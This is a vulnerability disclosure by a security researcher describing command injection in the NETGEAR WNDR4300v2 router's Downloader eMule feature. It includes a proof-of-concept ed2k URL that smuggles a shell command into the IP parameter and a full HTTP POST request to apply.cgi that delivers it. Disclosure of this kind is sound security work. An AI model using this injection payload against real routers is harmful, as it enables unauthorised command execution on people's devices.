Hi, I'm eack from Codesafe team of Legendsec at Qi'anxin Group .
Recently, I discovered that there is a command injection vulnerability in netgear's WNDR4300v2 router. The firmware version tested was v1.0.0.58. The details of the vulnerability are as follows:

Vulnerability location:
In NETGEAR Downloader (BETA), when using emule download, the ip and port parameters are not filtered, resulting in remote command injection.

First you have to make sure that USB is plugged into the router.
Then you need to turn on wireshark to monitor WLAN traffic.
Finally, you can verify the vulnerability by simply capturing, modifying, and replaying the packet through BurpSuite.
![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563843935009.png)

The location of the vulnerability in the code:
Because IP and port parameters have a command injection vulnerability.
![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563779263843.png)

Poc:
ed2k://|server|192.168.195.132\';ping 192.168.1.8;echo'|8000

Grab this package in BurpSuite and make the following changes:
![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563843834060.png)
Can be verified by wireshark packet capture:
![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563778026290.png)

HTTP Request:

POST /apply.cgi?/GREEN_emule_basic.htm%20timestamp=778486986003 HTTP/1.1
Host: 192.168.1.1
Content-Length: 358
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.1.1/GREEN_emule_basic.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOiI1OTczIiwiaXNzIjoid3d3Lm5ldGdlYXIuY29tIiwic3ViIjoiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQw==.37588a09eba998aae243f26431b404b0c8922f019cba11ea126ab8cdecbd470c
Connection: close

submit_flag=add_download_item&download_type=emule&save_usb_path=&green_download_open_flag=&enable_green_download=on&download_type_1=emule&download_url=ed2k%3A%2F%2F%7Cserver%7C192.168.195.132%5C%27%3Bping+192.168.1.8%3Becho%27%7C8000&Add=%E6%B7%BB%E5%8A%A0&priority_sel=4&priority_sel=4&priority_sel=4&select_ids=&select_ids_queuen=&priority_val=&file_type=2

